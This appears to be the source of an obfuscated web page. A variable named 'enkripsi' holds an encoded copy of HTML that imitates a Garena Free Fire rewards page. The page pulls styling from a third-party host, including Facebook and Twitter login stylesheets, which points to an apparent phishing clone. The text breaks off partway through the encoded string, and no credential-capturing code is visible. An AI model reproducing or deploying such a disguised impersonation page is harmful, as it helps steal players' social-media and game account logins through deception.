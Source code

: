 var
enkripsi="'1A'1Dzon'02tgpqkml'1F'003,2'00'02glamfkle'1F'00WVD/:'00'02'1D'1G'2C'02'02'02'02'1A'03FMAV[RG'02jvon'1G'2C'02'02'02'1Ajvon'02`'1Caqq'1F'05dcnqg'05'02`'1Cfgdcwnvukfegvtgpqkml'1F'050'05'02`'1Cnc{mwvqTgpqkml'1F'051'05'02`'1Cpgqrmlqktg'1F'05vpwg'05'02`'1CvgorncvgTgpqkml'1F'053,1,2'05'02gzrp'1Cfkp'1F'05fcvc'1C`nme,nclewcegFkpgavkml'05'02zonlq'1F'05jvvr'1C--uuu,u1,mpe-3;;;-zjvon'05'02zonlq'1C`'1F'05jvvr'1C--uuu,emmeng,amo-0227-eon-`'05'02zonlq'1Cfcvc'1F'05jvvr'1C--uuu,emmeng,amo-0227-eon-fcvc'05'02zonlq'1Cgzrp'1F'05jvvr'1C--uuu,emmeng,amo-0227-eon-gzrp'05'1G'1Ajgcf'1G'2C'02'02'02'02'1Aogvc'02amlvglv'1F'05ukfvj'1Ffgtkag/ukfvj'0A'02klkvkcn/qacng'1F3'05'02lcog'1F'05tkgurmpv'05-'1G'2C'02'02'02'02'1Avkvng'1G'1Afcvc'1Ctkgu,vkvng,gqacrgf-'1G'1A-vkvng'1G'2C'02'02'02'02'1A`'1Cklanwfg'02fcvc'1F'05`nme'05'02lcog'1F'05cnn/jgcf/amlvglv'05-'1G'2C'02'02'02'02'02'02'02'02'1Aogvc'02amlvglv'1F'05ukfvj'1Ffgtkag/ukfvj'0A'02klkvkcn/qacng'1F3'05'02lcog'1F'05tkgurmpv'05'02-'1G'2C'02'02'02'02'02'02'02'02'1A`'1Cqikl'02tgpqkml'1F'053,1,2'05'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A'03'7@AFCVC'7@'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'2C'02'02'02'02'02'02'02'02'02'02'02'02'7F'7F'1G'2C'02'02'02'02'02'02'02'02'1A-`'1Cqikl'1G'2C'02'02'02'02'02'02'02'02'1A`'1Cvgorncvg/qikl'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A'03'7@AFCVC'7@'2C'02'02'02'02'02'02'02'02'02'02'02'02'7F'7F'1G'2C'02'02'02'02'02'02'02'02'1A-`'1Cvgorncvg/qikl'1G'2C'02'02'02'02'1A-jgcf'1G'2C'02'1A`mf{'1G'2C'02'02'1A`'1Cqgavkml'02ancqq'1F'05ockl'05'02kf'1F'05ockl'05'02qjmucffgngoglv'1F'05{gq'05-'1G'2C'02'02'02'02'02'02'02'2C'1Aqapkrv'02nclewceg'1F'00hctcqapkrv'00'1G'2Cfmawoglv,egvGngoglv@{Kf'0:'05ockl'05'0;,kllgpJVON'02'1F'02'00'00'1@'2Ctcp'02glipkrqk'1F'00'050A'050A'053C'0521DOCT'7@PE'0520html'053E'050A'053Chtml'0520data-'42uild-timestamp-utc'053D'05222021-04-06T0'1C'053A25'053A31'0A25'1CZ'0522'0520lang'053D'0522en'0522'053E'050A'0520'0520'0520'053Chead'053E'050A'0520'0520'0520'0520'0520'0520'053Cmeta'0520http-equiv'053D'0522content-t'5@pe'0522'0520content'053D'0522text/html'053B'0520charset'053DUTF-'1C'0522'053E'050A'0520'0520'0520'0520'0520'0520'053Cmeta'0520charset'053D'0522utf-'1C'0522'053E'050A'0520'0520'0520'0520'0520'0520'053Cmeta'0520http-equiv'053D'0522X-UA-Compati'42le'0522'0520content'053D'0522IE'053Dedge'0522'053E'050A'0520'0520'0520'0520'0520'0520'053Cmeta'0520http-equiv'053D'0522x-dns-prefetch-control'0522'0520content'053D'0522on'0522'053E'050A'0520'0520'0520'0520'0520'0520'053Cmeta'0520name'053D'0522viewport'0522'0520content'053D'0522width'053Ddevice-width'052Cinitial-scale'053D1'052Cviewport-fit'053Dcover'0522'053E'050A'0520'0520'0520'0520'0520'0520'053Ctitle'053EFree'0520Fire'053C/title'053E'050A'0520'0520'0520'0520'0520'0520'053Clink'0520rel'053D'0522dns-prefetch'0522'0520href'053D'0522https'053A//prod-api'0Areward'0Aff'0Agarena'0Acom/'0522'053E'050A'0520'0520'0520'0520'0520'0520'053Clink'0520rel'053D'0522icon'0522'0520href'053D'0522https'053A//freefiremo'42ile-a'0Aakamaihd'0Anet/ffwe'42site/images/freefire32-2'0Aico'0522'0520t'5@pe'053D'0522image/x-icon'0522'053E'050A'0520'0520'0520'0520'0520'0520'053Clink'0520rel'053D'0522shortcut'0520icon'0522'0520href'053D'0522https'053A//freefiremo'42ile-a'0Aakamaihd'0Anet/ffwe'42site/images/freefire16-2'0Aico'0522'0520t'5@pe'053D'0522image/x-icon'0522'053E'050A'0520'0520'0520'0520'0520'0520'053Cmeta'0520name'053D'0522description'0522'0520content'053D'0522'0522'053E'050A'0520'0520'0520'0520'0520'0520'053Cmeta'0520name'053D'0522author'0522'0520content'053D'0522'0522'053E'050A'0520'0520'0520'0520'0520'0520'053Cmeta'0520name'053D'0522title'0522'0520content'053D'0522FreeFire'0522'053E'050A'0520'0520'0520'0520'0520'0520'053Cmeta'0520name'053D'0522description'0522'0520content'053D'0522FreeFire'0522'053E'050A'0520'0520'0520'0520'0520'0520'053Cmeta'0520propert'5@'053D'0522og'053Atitle'0522'0520content'053D'0522FreeFire'0522'053E'050A'0520'0520'0520'0520'0520'0520'053Cmeta'0520propert'5@'053D'0522og'053Adescription'0522'0520content'053D'0522FreeFire'0522'053E'050A'050A'0520'0520'0520'0520'0520'0520'053Clink'0520href'053D'0522https'053A//raviral'0Acom/host'7Fst'5@le/st'5@le/new'7Fff'7Fv2/css/main'0Acss'0522'0520rel'053D'0522st'5@lesheet'0522'053E'050A'050'1@'0520'0520'053Clink'0520rel'053D'0522st'5@lesheet'0522'0520href'053D'0522https'053A//raviral'0Acom/host'7Fst'5@le/st'5@le/new'7Fff'7Fv2/css/st'5@le'0Acss'0522'053E'050A'0520'0520'0520'0520'0520'0520'053Clink'0520rel'053D'0522st'5@lesheet'0522'0520href'053D'0522https'053A//raviral'0Acom/host'7Fst'5@le/st'5@le/new'7Fff'7Fv2/css/face'42ook'0Acss'0522'053E'050A'0520'0520'0520'0520'0520'0520'053Clink'0520rel'053D'0522st'5@lesheet'0522'0520href'053D'0522https'053A//raviral'0Acom/host'7Fst'5@le/st'5@le/new'7Fff'7Fv2/css/twitter'0Acss'0522'053E'050A'0520'0520'0520'053C/head'053E'050A'0520'0520'0520'053C'42od'5@'053E'050A'0520'0520'0520'0520'0520'0520'053Cdiv'0520id'053D'0522app'0522'053E'050A'053Cdiv'0520st'5@le'053D'0522direction'053Altr'0520'0521important'053B'0522'0520class'053D'0522main'0522'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520data-v-d54'1Cccee'053D'0522'0522'0520class'053D'0522home-wrapper'0522'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520data-v-d54'1Cccee'053D'0522'0522'0520class'053D'0522home-'42ackground'0522'053E'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520data-v-d54'1Cccee'053D'0522'0522'0520class'053D'0522home-container'0522'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520data-v-d54'1Cccee'053D'0522'0522'0520class'053D'0522home'0522'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520data-v-47'42a120f'053D'0522'0522'0520data-v-d54'1Cccee'053D'0522'0522'0520class'053D'0522header'0
